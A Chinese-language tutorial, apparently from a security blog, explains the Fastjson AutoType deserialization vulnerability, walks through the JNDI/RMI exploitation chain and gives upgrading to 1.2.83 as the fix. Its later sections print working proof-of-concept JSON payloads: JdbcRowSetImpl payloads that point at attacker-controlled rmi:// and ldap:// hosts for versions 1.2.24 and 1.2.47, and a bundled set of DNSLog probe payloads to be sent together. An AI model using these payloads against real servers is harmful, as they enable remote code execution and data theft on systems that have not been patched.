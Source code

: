 Fastjson用于将json和java对象之间转化的工具库，够支持将java bean序列化成JSON字符串，也能够将JSON字符串反序列化成Java bean。
<https://www.cnblogs.com/kingo/p/16528047.html>
^
## **验证利用**
利用工具可以实现反弹shell。
一般java程序，请求体中有传json，可能就是用了fastjson。
vulhub靶场fastjson：
1.2.24以下，传一个错误json，报错回显，看显示中有没有fastjson
1.2.47版本，报错回显是用的com.alibaba.fastjson

此时再构造json使用jndi注入进行验证利用。

## **防御**
fastjson升级到1.2.83版本以上。
```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
```
或不使用fastjson。

^
## **Fastjson序列化/反序列化原理**
fastjson由于引进了AutoType功能，fastjson在对json字符串反序列化的时候，会读取到@type内容指定的类，将json内容反序列化为java对象并调用这个类的setter方法。

**那么为啥要引进Auto Type功能呢？**
fastjson在序列化以及反序列化的过程中并没有使用Java自带的序列化机制，而是自定义了一套机制。
对于JSON框架来说，想要把一个Java对象转换成字符串，可以有两种选择：
1.基于setter/getter反射机制
2.基于属性（AutoType） 。

基于setter/getter会带来什么问题呢，下面举个例子，假设有如下两个类：
```java
class Apple implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
class iphone implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
```
实例化对象之后，假设苹果对象的price为0.5，Apple类对象序列化为json格式后为：
{"Fruit":{"price":0.5}}
假设iphone对象的price为5000,序列化为json格式后为：
{"Fruit":{"price":5000}}
当一个类只有一个接口的时候，将这个类的对象序列化的时候，就会将子类名抹去（apple/iphone）只保留接口的类型(Fruit)，最后导致反序列化时无法得到原始类型。
^
为了解决上述问题： fastjson引入了基于属性（AutoType），即在序列化的时候，先把原始类型记录下来。使用@type的键记录原始类型，在本例中，引入AutoType后，Apple类对象序列化为json格式后为：
{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.Apple", "price":0.5 } }
引入AutoType后，iphone类对象序列化为json格式后为：
{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.iphone", "price":5000 } }
这样在反序列化的时候就可以区分原始的类了。



## **Fastjson漏洞原理**
利用Fastjson的autotype机制在处理json对象的时候，未对@type字段进行完全的安全性验证，攻击者可以传入危险类，并调用危险类的中方法连接远程rmi主机，通过其中的恶意类执行代码。攻击者通过这种方式可以实现远程代码执行漏洞，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作，对服务器造成巨大的影响。
^
请求包的请求体JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来把JSON内容反序列化成@type指定的对象，并且会调用这个对象的setter或者getter方法。
此时@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法支持传入一个rmi的源，只要解析其中的url就会支持远程调用，
因此整个漏洞复现的原理过程就是：
```
1. 攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，
以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2. 存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，
靶机服务器就会向rmi服务器请求待执行的命令。
也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3. rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，
提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），
得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell等）
4. rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5. 靶机服务器执行了恶意代码，被攻击者成功利用。
```
![](https://img-bc.icode.best/26de9fc36b2940c6882491c5453db571.png)
^
## **漏洞利用和验证**
请求包：
```
'Content-Type':'application/json;charset=UTF-8'
```
```
{"@type":"java.net.InetAddress","val":"x166os.dnslog.cn"}

{"@type":"java.net.Inet4Address","val":"2qytvx.ceye.io"}
```
1.2.24的POC：
@type指定为官方的类，可以远程方法调用。
构造rmi服务器反弹shell利用复现：<https://icode.best/i/30418758861003>
```
{
    "b":{
         "@type":"com.sun.rowset.JdbcRowSetImpl",
         "dataSourceName":"rmi://xxx.com:9999/dnslog",
         "autoCommit":"true"
        }
}
```

之后版本fastjson过滤了@type中敏感字符。
1.2.47的POC：
fastjson中有一个全局缓存，如果fastjosn cache为true，就会缓存java.lang.Class中的val对应的class到全局缓存中。
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
         "dataSourceName":"rmi://xxx.com:9999/dnslog",
         "autoCommit":"true"
    }
}
```





## **POC**
都是上了直接发

> {“@type”:“java.net.Inet4Address”,“val”:“okkkk.02e2z0.dnslog.cn”}，

有时候这个并能触发dnslog，当然好一点的是

> {“x”:{“@type”:“java.net.Inet4Address”,“val”:“okkkk.02e2z0.dnslog.cn”}}

当然这个也是有的情况存在遗漏。

1.2.67版本前

> {“zeo”:{“@type”:“java.net.Inet4Address”,“val”:“c9f7jl.dnslog.cn”}}

1.2.67版本后payload

> {“@type”:“java.net.Inet4Address”,“val”:“dnslog”}\
> {“@type”:“java.net.Inet6Address”,“val”:“dnslog”}\
> {“@type”:“java.net.InetSocketAddress”{“address”:,“val”:“dnslog”}}\
> {{“@type”:“java.net.URL”,“val”:“http\://dnslog”}:“x”}

个人建议，把一些有用的payload放在一个包里面发，先检测是否有dns请求，然后再单独发，确定是那个payload有效，例如：

> {“a”:{“@type”:“java.net.Inet4Address”,“val”:“scspxx.dnslog.cn”},“b”:{“@type”:“java.net.Inet6Address”,“val”:“scspxx.dnslog.cn”},“c”:{“@type”:“java.net.InetSocketAddress”{“address”:,“val”:“scspxx.dnslog.cn”}},“d”:{{“@type”:“java.net.URL”,“val”:“http\://scspxx.dnslog.cn”}:“x”},“e”:{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap\://scspxx.dnslog.cn”,“autoCommit”:true},“f”:{“name”:{“@type”:“java.lang.Class”,“val”:“com.sun.rowset.JdbcRowSetImpl”},“x”{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap\://scspxx.dnslog.cn”,“autoCommit”:true}}},“g”:{“@type”:“javax.swing.JEditorPane”,“page”:“http\://scspxx.dnslog.cn”},“h”:{“@type”:“com.alibaba.fastjson.JSONObject”,\
 {“@type”: “java.net.URL”,“val”:“http\://scspxx.dnslog.cn”}}“”}}

测试fastjson是否存在，以下几种方式：
1. 破坏原先的json 结构，然后看服务器返回的报错信息
2. 输入@type作为key的json数据，来看是否可以执行，比如不出网的情况下发包可能会卡住
3. 白盒情况下直接看classpath的依赖包

